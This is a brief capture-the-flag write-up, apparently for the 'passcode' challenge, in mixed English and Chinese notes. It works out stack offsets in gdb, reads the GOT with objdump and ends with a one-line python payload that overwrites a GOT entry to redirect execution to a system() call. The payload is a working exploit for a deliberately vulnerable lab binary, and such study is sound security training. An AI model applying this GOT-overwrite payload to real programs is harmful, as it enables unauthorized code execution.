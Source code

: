 Set break point at welcome 

搵 name[100]  address->ebp-0x70

set at login

搵passcode1 ,passcode2 address

passcode1:ebp-0x10
passcode2:ebp-0xc

EBP: 0xffffd3a8 --> 0xffffd3c8

observed that EBP(base pointer) address is the same for two cases

0x70-0x10=96


objdump -R passcode <-check GOT table for passcode


use IDA pro find system address:080485E3

因為入完passcode1之後只有function run(scanf,printf,chk....)做過

所以,先疊高name,向passcode1寫入地址令passcode1指向(scanf,printf,chk....)
再input system address

scanf("%d", passcode1);<becoz %d so input a integer


payload= python -c "print 'A'*96+'\x00\xa0\x04\x08\n'+'134514147\n'" | ./passcode


Reference:
http://blog.csdn.net/qq_20307987/article/details/51303824

http://brandon-hy-lin.blogspot.hk/2015/12/shared-library-plt-got.html

https://gist.github.com/ihciah/0ca68da3e32e38818bb9

http://jing0107.lofter.com/post/1cbc869f_8b3d8a5
